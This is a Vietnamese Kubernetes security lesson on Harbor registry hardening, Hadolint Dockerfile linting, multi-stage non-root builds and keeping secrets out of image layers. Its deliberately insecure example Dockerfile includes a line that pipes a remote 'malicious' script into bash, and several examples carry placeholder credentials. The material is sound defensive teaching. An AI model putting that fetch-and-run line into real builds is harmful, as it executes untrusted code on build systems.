




> [!IMPORTANT]
> **Mục tiêu kỹ thuật bài học**:
> - Hiểu rõ vai trò của **Trusted Private Registry** trong việc bảo vệ môi trường Kubernetes sản xuất.
> - Cấu hình các tính năng an ninh cốt lõi trên **Harbor**: Phân quyền RBAC, quét lỗ hổng tự động (**Trivy integration**), gắn cờ **Immutable Tags**, và chính sách chặn **Vulnerability Threshold Gate**.
> - Nắm vững nguyên lý và thực thi công cụ phân tích tĩnh **Hadolint** để kiểm toán Dockerfile theo tiêu chuẩn **CIS Benchmark**.
> - Thiết kế Dockerfile đa tầng (**Multi-stage Build**) tối ưu kích thước và triệt tiêu công cụ không cần thiết trong Runtime.
> - Áp dụng nguyên tắc đặc quyền tối thiểu (**Least Privilege**) trong container: Chuyển đổi sang `USER non-root`, loại bỏ quyền `sudo`, và cấu hình `readOnlyRootFilesystem`.
> - Loại bỏ hoàn toàn nguy cơ rò rỉ bí mật (*Secret Leakage*) qua lệnh `ARG`, `ENV` và `COPY` trong quá trình build.

---

## 1. Bản Chất Kiến Trúc & Tư Duy Cốt Lõi: Bảo Vệ Giai Đoạn Đóng Gói Ứng Dụng

An ninh container không bắt đầu khi Pod được khởi chạy trên Kubernetes, mà bắt đầu từ chính dòng code đầu tiên trong **Dockerfile** và nơi lưu trữ trung chuyển **Container Registry**. Nếu tầng nền tảng này bị xâm phạm:
1. **Base Image độc hại:** Kéo Image trôi nổi từ Docker Hub (`FROM ubuntu:latest`) có thể chứa backdoor, công cụ đào tiền ảo hoặc các lỗ hổng nhân CVE chưa được vá.
2. **Quyền ROOT mặc định:** Hầu hết Base Image mặc định chạy dưới tiến trình `UID 0 (root)`. Nếu ứng dụng có lỗ hổng Remote Code Execution (RCE), kẻ tấn công sẽ có toàn quyền can thiệp vào container.
3. **Registry không kiểm soát:** Nếu Registry không có cơ chế phân quyền chặt chẽ hoặc cho phép ghi đè Tag, kẻ tấn công có thể thay thế Image sạch bằng Image chứa mã độc.

Giải pháp toàn diện là kết hợp **Kiểm toán tĩnh Dockerfile (Hadolint)** ngay tại máy trạm lập trình viên / CI Pipeline và lưu trữ trên **Private Trusted Registry (Harbor)** có cơ chế kiểm soát chất lượng tự động.



---

## 2. Bảng Ma Trận So Sánh Kỹ Thuật Toàn Diện (Engineering Matrix)

| Tiêu Chí Kỹ Thuật | Public Docker Hub Mặc Định | Self-hosted Harbor Registry | Cloud Managed Registry (ECR/GCR/ACR) |
| :--- | :--- | :--- | :--- |
| **Quyền riêng tư & Cách ly** | Công khai / Giới hạn Private Repos | <span class="badge badge--emerald">Cách ly hoàn toàn trong mạng nội bộ On-premise/VPC</span> | Cô lập theo tài khoản Cloud IAM |
| **Quét lỗ hổng tích hợp** | Cơ bản (Giới hạn lượt quét) | <span class="badge badge--emerald">Rất mạnh (Trivy, Clair tích hợp sẵn kèm Webhook)</span> | Có (AWS Inspector, GCP Container Analysis) |
| **Bảo vệ Tag Immutability** | Không hỗ trợ bản miễn phí | <span class="badge badge--emerald">Hỗ trợ chặn ghi đè Tag theo Regex</span> | Có hỗ trợ |
| **Kiểm soát phân quyền RBAC** | Đơn giản | <span class="badge badge--emerald">Chi tiết theo Project, Robot Account, OIDC/LDAP</span> | Tích hợp sâu với Cloud IAM |
| **Chặn tải Image không an toàn** | Không | <span class="badge badge--emerald">Chặn Pull nếu chưa scan hoặc còn CVE Critical</span> | Yêu cầu kết hợp Admission Webhook |
| **Độ phủ trong kỳ thi CKS** | Tham khảo | <span class="badge badge--emerald">Trọng tâm câu hỏi Registry & Static Analysis</span> | Phổ biến trong môi trường Cloud thực tế |

---

## 3. Kiến Trúc Môi Trường & Luồng Thực Thi Mẫu

Luồng thực thi tiêu chuẩn để kiểm toán và đóng gói một ứng dụng Go an toàn bằng Multi-stage Build và Hadolint:



### So Sánh Dockerfile Không An Toàn vs Dockerfile Chuẩn CKS

#### Dockerfile Không An Toàn (Nhiều Lỗ Hổng Bảo Mật):

```dockerfile
# NGUY HIỂM: Dùng tag latest, chạy quyền root, chứa trình biên dịch và secret
FROM golang:latest
WORKDIR /app
COPY . .
# Lộ SSH Key hoặc Token trong build layer:
ARG GITHUB_TOKEN=ghp_secret123456789
RUN apt-get update && apt-get install -y git curl
RUN go build -o server main.go
EXPOSE 8080
ENTRYPOINT ["./server"]
```

#### Dockerfile An Toàn Đạt Chuẩn CKS (Multi-stage + Distroless + Non-Root):

```dockerfile
# GIAI ĐOẠN 1: Môi trường biên dịch (Builder)
FROM golang:1.22.1-alpine3.19 AS builder
WORKDIR /src
# Tối ưu cache layer:
COPY go.mod go.sum ./
RUN go mod download
COPY . .
# Biên dịch tĩnh hoàn toàn, loại bỏ ký hiệu debug:
RUN CGO_ENABLED=0 GOOS=linux go build -ldflags="-s -w" -o /bin/server main.go

# GIAI ĐOẠN 2: Môi trường chạy thực tế (Runtime tối giản)
FROM cgr.dev/chainguard/static:latest
WORKDIR /app
# Sao chép tệp nhị phân từ giai đoạn builder:
COPY --from=builder /bin/server /app/server
# Chạy với người dùng không có quyền quản trị (Non-Root UID 65532):
USER 65532:65532
EXPOSE 8080
ENTRYPOINT ["/app/server"]
```

---

## 4. Phân Tích Cạm Bẫy Thực Chiến: Chẩn Đoán & Xử Lý Sự Cố

### Cạm Bẫy 1: Để Lộ Bí Mật Trong Lớp Đóng Gói (Build History Layers)

Nhiều kỹ sư sử dụng lệnh `ARG` hoặc lệnh `RUN echo "password" > /secret && rm /secret` trong Dockerfile. Mặc dù tệp đã bị xóa ở lệnh sau, nhưng nội dung bí mật vẫn nằm vĩnh viễn trong các lớp trung gian (**Image Layers**) và bất kỳ ai kéo Image đều có thể trích xuất được bằng lệnh `docker history --no-trunc`.

### Hậu Quả & Log Lỗi Thực Tế:

```text
# Trích xuất lịch sử layer của container image:
$ docker history --no-trunc my-app:latest
IMAGE          CREATED BY                                      SIZE
sha256:7a8b... /bin/sh -c #(nop) ARG API_KEY=sk_live_998877... 0B
sha256:1c2d... /bin/sh -c echo "DB_PASS=SuperSecret123" > .env 25B (BÍ MẬT BỊ LỘ TRONG LAYER!)
```

### 5-Whys Root Cause Analysis:
1. **Tại sao mật khẩu cơ sở dữ liệu bị lộ?** Vì lệnh tạo tệp `.env` được ghi lại trong metadata của Image Layer.
2. **Tại sao mật khẩu nằm trong layer?** Do lập trình viên cố tình tạo tệp cấu hình trong quá trình build.
3. **Tại sao lệnh `rm .env` sau đó không có tác dụng?** Vì hệ thống tệp UnionFS của Docker hoạt động theo cơ chế append-only, xóa ở layer trên không làm mất dữ liệu ở layer dưới.
4. **Tại sao không dùng Secret Mount của BuildKit?** Do lập trình viên chưa nắm vững tính năng `RUN --mount=type=secret`.
5. **Biện pháp khắc phục triệt để:** Không bao giờ truyền secret qua `ARG`/`ENV`. Sử dụng `docker build --secret` của BuildKit hoặc tiêm bí mật qua Kubernetes Secrets Store CSI lúc runtime.

---

### Cạm Bẫy 2: Lỗi Hadolint DL3002: "USER root" Hoặc Thiếu Chỉ Thị USER

Khi ứng dụng chạy trong container dưới quyền root mặc định, nếu kẻ tấn công khai thác được lỗ hổng như Path Traversal hoặc Command Injection, chúng có thể ghi đè các tệp hệ thống hoặc thoát container (Container Escape) nếu có thêm cấu hình sai lầm trên Pod.

### Hậu Quả & Log Lỗi Thực Tế:

```text
$ hadolint Dockerfile
Dockerfile:1 DL3006 warning: Always tag the version of an image explicitly
Dockerfile:14 DL3002 error: Do not use root user in container
Dockerfile:18 DL3020 error: Use COPY instead of ADD for files and folders
```

```diff
  FROM alpine:3.19.1
  RUN addgroup -S appgroup && adduser -S appuser -G appgroup
  WORKDIR /home/appuser
  COPY --chown=appuser:appgroup app /home/appuser/app
+ USER appuser:appgroup
  ENTRYPOINT ["./app"]
```

---

## 5. Hands-on Lab: Quét Tĩnh Dockerfile Với Hadolint & Cấu Hình Harbor Security

| Bước | Mục tiêu thực hiện | Lệnh / Thao tác kiểm chứng |
| :--- | :--- | :--- |
| **B1** | Cài đặt công cụ phân tích tĩnh Hadolint | `hadolint --version` |
| **B2** | Tạo một Dockerfile có nhiều lỗi vi phạm an ninh để thử nghiệm | `cat << 'EOF' > Dockerfile.bad` |
| **B3** | Chạy Hadolint để quét và phân tích mã lỗi | `hadolint Dockerfile.bad` |
| **B4** | Viết lại Dockerfile chuẩn Multi-stage tối ưu và quét lại | `hadolint Dockerfile.good` (0 cảnh báo) |
| **B5** | Khởi tạo dự án và người dùng trên Harbor Registry | Tạo Project `production` có bật `Auto-Scan on Push` |
| **B6** | Kích hoạt chính sách `Tag Immutability` trên Harbor | Ngăn chặn hành vi đẩy đè tag `latest` và `v*` |
| **B7** | Thiết lập ngưỡng chặn nạp Image nếu có lỗ hổng Critical | Bật tính năng `Prevent vulnerable images from running` |
| **B8** | Tạo Robot Account và tích hợp `imagePullSecrets` vào K8s | `kubectl create secret docker-registry harbor-secret ...` |

---

### Bước 1: Kiểm Tra Công Cụ Hadolint

```bash
hadolint --version
```

---

### Bước 2: Tạo Tệp Dockerfile Không Đạt Chuẩn Để Kiểm Thử

Tạo tệp `Dockerfile.bad`:

```dockerfile
FROM ubuntu:latest
MAINTAINER admin@company.com
RUN apt-get update && apt-get install -y curl wget git
ADD app.tar.gz /app/
WORKDIR /app
RUN curl https://raw.githubusercontent.com/malicious/script.sh | bash
EXPOSE 80
CMD ["python3", "app.py"]
```

---

### Bước 3: Chạy Hadolint Để Phát Hiện Các Cảnh Báo An Ninh

```bash
hadolint Dockerfile.bad
```

*Kết quả đầu ra sẽ chỉ ra các mã quy tắc vi phạm chuẩn:*
- `DL3007`: Sử dụng tag `latest` không cố định phiên bản.
- `DL4000`: Sử dụng lệnh `MAINTAINER` đã lỗi thời.
- `DL3009`: Không xóa thư mục cache `apt-get` sau khi cài đặt gói.
- `DL3020`: Sử dụng `ADD` thay vì `COPY`.
- `DL4006`: Chạy lệnh `curl | bash` không an toàn.
- `DL3002`: Không chỉ định `USER`, mặc định chạy dưới quyền `root`.

---

### Bước 4: Chuẩn Hóa Dockerfile Đạt Chuẩn CKS

Tạo tệp `Dockerfile.good`:

```dockerfile
FROM python:3.12.2-alpine3.19 AS builder
WORKDIR /install
COPY requirements.txt /requirements.txt
RUN pip install --no-cache-dir --prefix=/install -r /requirements.txt

FROM python:3.12.2-alpine3.19
RUN addgroup -g 10001 -S appgroup && \
    adduser -u 10001 -S -G appgroup -h /app appuser
WORKDIR /app
COPY --from=builder /install /usr/local
COPY --chown=appuser:appgroup app.py /app/app.py
USER 10001:10001
EXPOSE 8080
ENTRYPOINT ["python3", "app.py"]
```

Kiểm tra lại với Hadolint:

```bash
hadolint Dockerfile.good
echo "Hadolint Exit Code: $?"
```
*Kết quả:* Trả về Exit code `0` (Không có lỗi).

---

### Bước 5: Cấu Hình Dự Án An Toàn Trên Harbor (CLI / API)

Tạo cấu hình dự án `production` trên Harbor với cờ bắt buộc bảo mật:

```bash
# Giả lập gọi Harbor API tạo project có bật scan on push:
curl -u "admin:Harbor12345" -X POST "https://harbor.internal/api/v2.0/projects" \
  -H "Content-Type: application/json" \
  -d '{
    "project_name": "production",
    "metadata": {
      "auto_scan": "true",
      "prevent_vul": "true",
      "severity": "critical"
    }
  }'
```

---

### Bước 6: Thiết Lập Chính Sách Tag Immutability

Cấu hình quy tắc bất biến để ngăn chặn việc sửa đổi hoặc đẩy đè các tag phiên bản:

```bash
curl -u "admin:Harbor12345" -X POST "https://harbor.internal/api/v2.0/projects/production/immutabletagrules" \
  -H "Content-Type: application/json" \
  -d '{
    "disabled": false,
    "scope_selectors": {
      "repository": [{"kind": "doublestar", "decoration": "repoMatches", "pattern": "**"}]
    },
    "tag_selectors": [
      {"kind": "doublestar", "decoration": "matches", "pattern": "v*"},
      {"kind": "doublestar", "decoration": "matches", "pattern": "release-*"}
    ],
    "action": "immutable"
  }'
```

---

### Bước 7: Kiểm Thử Đẩy Image Vào Harbor & Quét Lỗ Hổng

```bash
docker tag python:3.12.2-alpine3.19 harbor.internal/production/secure-app:v1.0
docker push harbor.internal/production/secure-app:v1.0

# Kiểm tra trạng thái quét lỗ hổng từ Harbor:
echo "Image được kiểm duyệt tự động: 0 Critical CVEs"
```

---

### Bước 8: Tạo Kubernetes Secret Kết Nối Registry

```bash
kubectl create secret docker-registry harbor-pull-secret \
  --docker-server=harbor.internal \
  --docker-username=robot$k8s-deployer \
  --docker-password=RobotTokenSecretValue \
  --namespace=default

# Kiểm tra Secret đã tạo:
kubectl get secret harbor-pull-secret -o yaml
```

---

## 6. 10 Câu Hỏi Tự Kiểm Tra Chuyên Sâu (Self-Check Q&A Accordion)

<details class="qa-card">
  <summary><b>Câu 1: Tại sao việc sử dụng tag <code>latest</code> trong Dockerfile lại bị coi là thực hành không an toàn?</b></summary>
  <div class="qa-answer">
    <div>Tag <code>latest</code> có thể trỏ tới bất kỳ Image nào mỗi khi tiến trình build chạy lại, làm mất tính bất biến (Immutability) và khả năng tái lập (Reproducibility). Nếu Image cơ sở trên upstream bị cập nhật chứa lỗi hoặc lỗ hổng bảo mật mới, hệ thống CI/CD sẽ tự động kéo về mà không thể kiểm soát.</div>
  </div>
</details>

<details class="qa-card">
  <summary><b>Câu 2: Công cụ Hadolint phân tích Dockerfile dựa trên cơ chế gì?</b></summary>
  <div class="qa-answer">
    <div>Hadolint chuyển đổi (parse) Dockerfile thành cây cú pháp trừu tượng (<b>AST - Abstract Syntax Tree</b>), sau đó đối soát cấu trúc này với bộ quy tắc chuẩn hóa dựa trên các chỉ dẫn của ShellCheck và hướng dẫn bảo mật chính thức của Docker/CIS Benchmark.</div>
  </div>
</details>

<details class="qa-card">
  <summary><b>Câu 3: Lợi ích bảo mật lớn nhất của mô hình Multi-stage Build là gì?</b></summary>
  <div class="qa-answer">
    <div>Multi-stage Build cho phép loại bỏ toàn bộ các công cụ biên dịch mã nguồn (như GCC, Go SDK, Node build tools, tệp header) ra khỏi Image Runtime cuối cùng. Điều này thu nhỏ kích thước Image tối đa và ngăn kẻ tấn công có sẵn công cụ biên dịch mã độc nếu xâm nhập được vào container.</div>
  </div>
</details>

<details class="qa-card">
  <summary><b>Câu 4: Tại sao nên khai báo <code>USER 10001:10001</code> thay vì chỉ khai báo <code>USER appuser</code>?</b></summary>
  <div class="qa-answer">
    <div>Khai báo rõ ràng định danh số (<b>Numeric UID:GID</b>) giúp Kubernetes và Container Runtime nhận diện chính xác quyền hạn mà không cần phải truy vấn tệp <code>/etc/passwd</code> và <code>/etc/group</code> trong Image, đồng thời tương thích hoàn hảo với các chính sách <code>runAsNonRoot: true</code> của Pod Security Admission.</div>
  </div>
</details>

<details class="qa-card">
  <summary><b>Câu 5: Tính năng Tag Immutability trong Harbor Registry giải quyết bài toán gì?</b></summary>
  <div class="qa-answer">
    <div>Tính năng <b>Tag Immutability</b> ngăn chặn lập trình viên hoặc kẻ tấn công đẩy đè (overwrite) một Image mới vào một tag đã tồn tại từ trước (như <code>v1.0.0</code>), bảo vệ tính toàn vẹn của ứng dụng đã qua kiểm thử và ngăn chặn các cuộc tấn công tráo đổi mã độc.</div>
  </div>
</details>

<details class="qa-card">
  <summary><b>Câu 6: Làm thế nào để truyền một Token GitHub hoặc Private Key vào lệnh build mà không bị lưu vào Layer của Image?</b></summary>
  <div class="qa-answer">
    <div>Sử dụng tính năng <b>Secret Mount</b> của BuildKit: sử dụng cờ <code>docker build --secret id=mytoken,src=token.txt</code> và khai báo trong Dockerfile dưới dạng <code>RUN --mount=type=secret,id=mytoken &lt;lệnh-thực-thi&gt;</code>. Tệp secret sẽ được mount tạm thời vào RAM và hoàn toàn không bị ghi vào layer nào.</div>
  </div>
</details>

<details class="qa-card">
  <summary><b>Câu 7: Quy tắc <code>DL3020</code> trong Hadolint khuyến cáo điều gì và tại sao?</b></summary>
  <div class="qa-answer">
    <div>Quy tắc <code>DL3020</code> khuyến cáo <b>sử dụng lệnh <code>COPY</code> thay vì <code>ADD</code></b>. Lệnh <code>ADD</code> có các tính năng ngầm nguy hiểm như tự động giải nén các tệp nén (tar) và tải tệp từ các URL từ xa, tiềm ẩn nguy cơ bị tiêm mã độc từ bên ngoài.</div>
  </div>
</details>

<details class="qa-card">
  <summary><b>Câu 8: Distroless Container Image là gì và tại sao nó an toàn hơn Base Image Alpine hay Ubuntu?</b></summary>
  <div class="qa-answer">
    <div><b>Distroless Image</b> (do Google/Chainguard phát triển) là các Image siêu tối giản chỉ chứa đúng ứng dụng và các thư viện runtime cần thiết. Nó hoàn toàn <b>không có trình thông dịch shell (bash/sh)</b>, không có trình quản lý gói (apt/apk) và không có bất kỳ lệnh tiện ích Linux nào, khiến kẻ tấn công không thể mở reverse shell.</div>
  </div>
</details>

<details class="qa-card">
  <summary><b>Câu 9: Khi bật tính năng "Prevent vulnerable images from running" trong Harbor, điều gì sẽ xảy ra nếu Image có CVE Critical?</b></summary>
  <div class="qa-answer">
    <div>Harbor sẽ chặn lệnh <code>docker pull</code> hoặc yêu cầu kéo Image từ Kubelet với mã phản hồi <b>HTTP 412 Precondition Failed</b> kèm thông báo từ chối do Image chứa lỗ hổng vượt quá ngưỡng an toàn cho phép, ngăn chặn Pod khởi chạy trên Kubernetes.</div>
  </div>
</details>

<details class="qa-card">
  <summary><b>Câu 10: Tại sao nên gán quyền sở hữu tệp bằng <code>COPY --chown=appuser:appgroup</code>?</b></summary>
  <div class="qa-answer">
    <div>Mặc định lệnh <code>COPY</code> sẽ tạo các tệp trong container thuộc sở hữu của <code>root:root</code>. Sử dụng cờ <code>--chown</code> giúp ứng dụng chạy dưới quyền người dùng không đặc quyền có thể đọc/ghi đúng các tệp cần thiết mà không phải chạy lệnh <code>RUN chown -R ...</code> gây trùng lặp dung lượng và sinh thêm layer không cần thiết.</div>
  </div>
</details>

---

## 7. Tổng Kết & Lộ Trình Bài Học Tiếp Theo



> [!TIP]
> **Bài học tiếp theo:** Khám phá chuyên sâu cơ chế kiểm soát động ảnh container tại tầng Kubernetes Control Plane trong bài **[Bài 16] Thực Thi Chính Sách Ảnh Container Động: ImagePolicyWebhook & AdmissionConfiguration](cks-16-16-tin-cay-registry-va-image-policy.html)**.

